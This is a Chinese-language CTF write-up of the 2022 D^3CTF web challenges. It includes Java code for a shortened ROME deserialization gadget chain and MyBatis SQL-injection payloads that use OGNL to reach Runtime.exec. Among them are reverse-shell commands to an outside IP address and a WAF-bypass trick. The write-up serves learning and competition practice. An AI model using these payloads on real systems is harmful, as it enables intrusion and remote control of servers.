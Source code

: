 # 2022-D^3CTF-Web-Writeup

## 前言

比赛的时候做了shorter就摆烂了，正好有个作业拖到了周末别的题目就没怎么看。幸好比赛环境还保存1周，把Java给复现了，剩下3题看看wp学习学习不想复现了。别的题目的wp参考网上吧。

## shorter

rome反序列化，但是要缩短长度。

参考https://4ra1n.love/post/-IMSkqHfy/#%E5%88%A0%E9%99%A4%E9%87%8D%E5%86%99%E6%96%B9%E6%B3%95

但是最后还是长了。改用Jiang宝的链子就行：

```java
        byte[] evilCode = SerializeUtil.getEvilCode();
        ClassReader cr = new ClassReader(evilCode);
        ClassWriter cw = new ClassWriter(ClassWriter.COMPUTE_FRAMES);
        int api = Opcodes.ASM9;;
        ClassVisitor cv = new ShortClassVisitor(api, cw);
        int parsingOptions = ClassReader.SKIP_DEBUG | ClassReader.SKIP_FRAMES;
        cr.accept(cv, parsingOptions);
        byte[] out = cw.toByteArray();


        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{out});
        SerializeUtil.setFieldValue(templates,"_name","f");
        //SerializeUtil.setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        EqualsBean bean = new EqualsBean(String.class,"jiang");

        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy",bean);
        map1.put("zZ",templates);
        map2.put("zZ",bean);
        map2.put("yy",templates);
        Hashtable table = new Hashtable();
        table.put(map1,"1");
        table.put(map2,"2");

        SerializeUtil.setFieldValue(bean,"_beanClass",Templates.class);
        SerializeUtil.setFieldValue(bean,"_obj",templates);


        byte[] bytes = SerializeUtil.serialize(table);
        System.out.println(Base64.getEncoder().encodeToString(bytes));
        //SerializeUtil.unserialize(test);
        //System.out.println(Base64.getEncoder().encodeToString(bytes));
        System.out.println(System.nanoTime());
```

## ezsql

```java
    public String getVoteById(@Param("vid") final String vid) {
        String s = (new SQL() {
            {
                this.SELECT("*");
                this.FROM("vs_votes");
                this.WHERE("v_id = " + vid);
            }
        }).toString();
        return s;
    }
```

很明显的SQL注入。

本地弄一下发现这个SQL工具产生的SQL语句最后是这样的：

```SQL
SELECT 
*
FROM vs_votes
WHERE
v_id = (vid)
```



闭合括号然后联合注入加注释即可SQL注入，关键是怎么rce。

本地搭个mybatis模拟一下SQL语句注入对象，发现抱错信息里有OGNL，查一下OGNL。

最后参考th31nk师傅利用反射构造出exec：

```java
3) union select null,"${#this.getClass().forName('java.lang.Runtime').getMethods()[12].invoke(#this.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(),'/readflag')}",null,null,null--+
```

这里我拿类似`bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjEuNS4xNjkuMjIzLzM5ODc2IDA+JjE=}|{base64,-d}|{bash,-i}`

的命令执行不知道为啥打不通。。。。非常疑惑

最后从Nu1l的WP学习这种姿势了：

```java
3) union select null,"${#this.getClass().forName('java.lang.Runtime').getMethods()[14].invoke(#this.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(),'bash,-c,bash -i >& /dev/tcp/121.5.169.223/39876 0>&1'.split(','))}",null,null,null--+
```

别忘了URL编码一次。



另外一种解法就是fmyyy的拿2个u绕一下waf，比如1的unicode编码是`\u0031`，还可以写成`\uu0031`。

这样还可以直接拿到`new`。

然后直接构造，全部unicode编码即可。

## d3oj

比赛的时候没看，听说一堆洞，因为太老了。。。不太想复现了。。。

## d3fGo

go不会逆，寄，被大爹们做成了黑盒题。。。

## NewestWordPress

考wordpress最近的一个插件的洞，听说这题出的很离谱。。。

## 总结

我还是太菜了，继续看Java了。
